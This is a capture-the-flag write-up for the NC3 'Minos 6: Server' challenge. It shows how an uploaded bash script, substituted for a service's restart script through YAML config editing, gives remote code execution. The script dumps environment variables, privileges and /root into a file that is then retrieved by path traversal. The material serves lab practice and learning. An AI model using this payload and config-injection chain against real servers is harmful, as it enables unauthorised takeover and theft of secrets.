




+++
title = 'Minos 6: Server'
categories = ['Malware']
tags = ["CTF", "NC3", "Malware"]
date = 2025-12-12T20:50:00+01:00
scrollToTop = true
author = "Loff"
+++

## Challenge Name:

Minos 6: Server

## Category:

Malware

## Challenge Description:
```text
Er der mon måder at komme videre ind på den bagvedliggende server og ligefrem køre commands og overtage den?

Hvis du når ind, kan du jo lige tjekke miljøet ud og se, om der er god julestemning.

https://tryhackme.com/jr/minos 
```

Continued from [Minos 5: Panel](../minos-5-panel/index.md)

This task strongly hints at server-side command execution and full compromise of the Minos infrastructure.
After abusing the panel to read arbitrary files, the next logical step is to see whether we can execute code on the server itself.

## Approach 

From the previous challenge, we already know:
* The panel allows editing a YAML configuration
* The backend performs real actions based on that config
* We can:
  * Upload files
  * Download arbitrary paths
  * Modify operational parameters

From the recon in [Minos 5: Panel - Recon](../minos-5-panel/index.md#recon-mapping-the-functionality), one config entry stood out immediately:

```text
restart: /usr/local/minos/data/private/restart.sh
```

This suggests that the backend executes a restart script whenever configuration changes are applied.

If that script is executed automatically, and if we can control what script it points to, we may have authenticated remote code execution.

## Investigating the restart script

Using the same path traversal technique from Minos 5, I downloaded the original restart script.

Its contents confirmed the suspicion:
* It is a shell script
* It restarts the Minos service
* It runs with elevated privileges



This is a classic command execution pivot.

## Attack plan

1) Upload a malicious replacement restart script
2) Change the restart: path in the YAML config to point to our script
3) Save the config → trigger execution
4) Collect output via a readable location
5) Restore original behavior to avoid breaking the service

## Crafting the payload

I created a replacement script that:
* Dumps environment info
* Checks privileges
* Lists /root
* Writes everything to a file we can download
* Then calls the original restart logic

```bash
#!/bin/bash

# Output directory that can be read via API
OUT="/usr/local/minos/data/temp/pwned.txt"

# --- Payload (RCE stuff) ---
{
  echo "[+] Script executed"
  echo "[+] Whoami: $(whoami)"
  echo "[+] ID: $(id)"
  echo "[+] ENV:"
  env 2>&1
  echo
  echo "[+] Testing root access"
  whoami
  id
  echo
  echo "[+] Listing /root"
  ls -la /root 2>&1 || echo "ls /root failed"
} > "$OUT" 2>&1

# --- Restore original behavior: restart minos ---
sudo -n /usr/bin/systemctl restart minos
sleep 2
```

The output directory was chosen based on the YAML config:
```text
tempdir: /usr/local/minos/data/temp
```

## Uploading the script

I uploaded the file as `myrestart.sh` via the Malware Uploads page:



However, downloading the file via the upload API **did not** reveal its server-side path:

```text
GET /api/v2/private/uploads/download?path=myrestart.sh
```

So we need to determine where uploaded files are actually stored.

## Finding the upload path

After trying several paths manually, I decided to leverage AI power combined with Burp.
I asked ChatGPT for a list of possible paths based on what we knew of the server and its config, then input that list into Burp's Repeater function:



It turns out the path was also in the config YAML:
```text
filesyncdir: /usr/local/minos/data/filesync
```

Confirmed path of our script:
```text
/usr/local/minos/data/filesync/myrestart.sh
```

## Triggering RCE via config injection

Now everything was in place.

I modified the YAML config:



Saving the configuration should immediately trigger execution.

Verifying Code Execution

If successful, the script should create:
```text
/usr/local/minos/data/temp/pwned.txt
```

Using the same arbitrary file download endpoint as before:


It worked!
The script ran, environment variables were dumped, and the flag was found directly in the environment.

## Flag
```text
NC3{h0w_d1d_y0u_run_c0mm4nds_0n_my_s3rv3r???}
```

## Reflections and Learnings

## Up next

Series finale can be found in [Minos 7: Takedown](../minos-7-takedown/index.md)